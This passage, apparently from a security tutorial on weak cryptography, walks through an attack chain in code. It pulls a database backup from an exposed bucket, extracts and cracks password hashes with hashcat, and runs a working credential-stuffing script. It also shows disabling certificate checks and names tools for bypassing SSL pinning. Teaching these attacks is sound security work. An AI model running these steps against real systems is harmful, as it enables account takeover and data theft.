 ### **Real-World Exploitation Chain:**

**Step 1: Find Data Exposure**
```bash
# Discover exposed S3 bucket
aws s3 ls s3://company-backups/ --no-sign-request

# Download database backup
wget https://target.com/backup/prod_db.sql.gz
```

**Step 2: Extract and Analyze Hashes**
```sql
-- In the database dump
grep -i "password\|hash\|pwd" prod_db.sql

# Extract just the hash column
grep -oP "'password' => '[^']*'" prod_db.sql > hashes.txt
```

**Step 3: Crack Weak Hashes**
```bash
# Identify hash types
hashid hashes.txt

# Launch cracking attack
hashcat -m 0 hashes.txt /wordlists/rockyou.txt -O -w 4

# 80% of passwords cracked in under 1 hour
```

**Step 4: Pivot with Credentials**
```python
# Use cracked passwords for credential stuffing
def credential_stuffing(target, username_password_list):
    for username, password in username_password_list:
        response = requests.post(f'{target}/login', 
                               data={'username': username, 'password': password})
        if 'dashboard' in response.text:
            print(f'SUCCESS: {username}:{password}')
            # Now you're in with valid credentials
```

### **Bypassing Weak Crypto Defenses:**

**Weak Certificate Validation (Client-Side):**
```python
# Dangerous: Disabling cert verification
requests.get('https://target.com', verify=False)

# In mobile apps - certificate pinning bypass
# Use Frida or Objection to bypass SSL pinning
```

**Exploiting Cryptographic Oracles:**
```python
# Padding Oracle Attack Example
def padding_oracle_attack(ciphertext):
    # Modify ciphertext and observe error responses
    # Can reveal plaintext without knowing the key
    pass
```
